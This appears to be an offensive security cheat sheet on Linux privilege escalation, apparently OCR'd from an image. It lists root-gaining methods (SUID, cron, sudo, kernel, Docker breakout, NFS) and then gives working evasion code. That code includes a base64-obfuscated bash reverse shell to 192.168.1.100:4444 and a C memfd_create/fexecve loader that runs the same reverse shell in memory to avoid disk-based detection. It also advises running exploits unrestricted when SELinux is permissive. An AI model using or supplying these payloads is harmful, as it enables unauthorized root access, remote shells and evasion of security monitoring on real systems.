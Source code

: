 ## Exploitation Methods
- **SUID Exploitation**:
  - Abuse SUID binaries to execute commands as root.
  - **Purpose**: Gain root shell access.
- **Cron Job Exploitation**:
  - Modify writable cron scripts to include malicious commands.
  - **Purpose**: Execute code as root during scheduled tasks.
- **Sudo Exploitation**:
  - Use misconfigured sudo permissions to run privileged commands.
  - **Purpose**: Gain root privileges without authentication.
- **Kernel Exploitation**:
  - Exploit unpatched kernel vulnerabilities to gain root.
  - **Purpose**: Achieve system-wide control.
- **Docker Breakout**:
  - Escape containers to gain host root access.
  - **Purpose**: Compromise the host system.
- **NFS Exploitation**:
  - Use `no_root_squash` to create privileged binaries.
  - **Purpose**: Gain root access via NFS shares.

## AV/AppArmor/SELinux Evasion Techniques
- **Obfuscated Scripts**:
  - **Technique**: Obfuscate shell scripts to evade detection.
  - **Execution**: Encode scripts with `base64`.
    ```bash
    echo 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1' | base64 > encoded.sh
    echo 'echo "$(cat encoded.sh | base64 -d)" | bash' > run.sh
    chmod +x run.sh
    ```
    **Example Output**: Executes the encoded payload.
    - **Purpose**: Evade detection by AppArmor or monitoring tools.
- **In-Memory Execution**:
  - **Technique**: Execute payloads in memory.
  - **Execution**: Use `memfd_create`.
    ```bash
    cat << 'EOF' > /tmp/exploit.c
    #include <sys/memfd.h>
    #include <unistd.h>
    int main() {
        int fd = memfd_create("exploit", 0);
        write(fd, "#!/bin/bash\nbash -i >& /dev/tcp/192.168.1.100/4444 0>&1", 60);
        fexecve(fd, (char *[]){NULL}, (char *[]){NULL});
        return 0;
    }
    EOF
    gcc /tmp/exploit.c -o /tmp/exploit
    /tmp/exploit
    ```
    **Example Output**: Reverse shell connects.
    - **Purpose**: Avoid disk-based detection.
- **AppArmor/SELinux Bypass**:
  - **Technique**: Exploit permissive or misconfigured profiles.
  - **Execution**: Check SELinux status.
    ```bash
    sestatus
    ```
    **Example Output**:
    ```
    SELinux status: permissive
    ```
    - If permissive, execute exploits without restrictions. For enforced profiles, target `unconfined_t` or use exploits bypassing specific rules.